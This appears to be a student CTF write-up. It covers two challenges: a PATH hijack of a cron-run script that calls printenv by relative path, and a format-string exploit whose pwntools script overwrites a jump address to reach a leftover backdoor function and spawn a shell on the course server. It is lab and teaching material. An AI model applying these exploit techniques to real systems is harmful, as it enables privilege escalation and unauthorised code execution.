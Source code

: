 # CTF extra challenges

## British punctuality

On the `home/flag_reader` we noticed a script and upon analyzing further we noticed a vulnerability.
It was using the command `printenv` by calling a relative path. This meant we could exploit it by re-writing the PATH environment variable.
Because the script was using a file to load the environment, we created one to change the PATH variable.

```bash
nobody@caea6090734d:/tmp$ ls
env	last_log 
nobody@caea6090734d:/tmp$ cat env
export PATH=/tmp/:$PATH
```

The server was running `cron` to perform the script every minute. Our user did not have access to the flag file but the cron job did. So now we just needed to create our own `printenv` in order to get the flag.

```bash
nobody@caea6090734d:/tmp$ echo "cat ../flags/flag.txt" > printenv
```

After waiting for the script to be executed again, we opened the last_log and there was the flag.

## FinalFormat

After opening the program, we tested if the string format vulnerability was still there:

```bash
seed@VM:~/ctf/FinalFormat$ ./program 
There is nothing to see here...a%x%x
You gave me this:a2578256178
```

For this challenge, the backdoor had been removed. However, by using gdb we were able to find that it was still present in the code:

```bash
gdb-peda$ info functions
All defined functions:

Non-debugging symbols:
...
0x08049236  old_backdoor
...
``` 

Because of this, our plan was to redirect the flow of the program to that address. 
However, using `checksec` we figured that writing in the stack would be a tough task:

```bash
gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

Therefore, we used the gdb to try and find instructions where the code would use calls and jumps to other addresses.
Soon enough we found a jump to the following address: `0x0804c010`.

Now, we built an exploit that would re-write the backdoor function to that address using format vulnerabilities:

```py
from pwn import *

LOCAL = False

if LOCAL:
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4007)

#0x08049236  old_backdoor

N = 60
content = bytearray(0x0 for i in range(N))

content[0:4]  =  (0xaaaabbbb).to_bytes(4, byteorder='little')
content[4:8]  =  (0x0804c012).to_bytes(4, byteorder='little')
content[8:12]  =  ("????").encode('latin-1')
content[12:16]  =  (0x0804c010).to_bytes(4, byteorder='little')

s = "%.2036x" + "%hn" + "%.35378x%hn"

fmt  = (s).encode('latin-1')
content[16:16+len(fmt)] = fmt

p.recvuntil(b"here...")
p.sendline(content)
p.interactive()
```

Running this, we were able to prompt a shell and cat the flag.
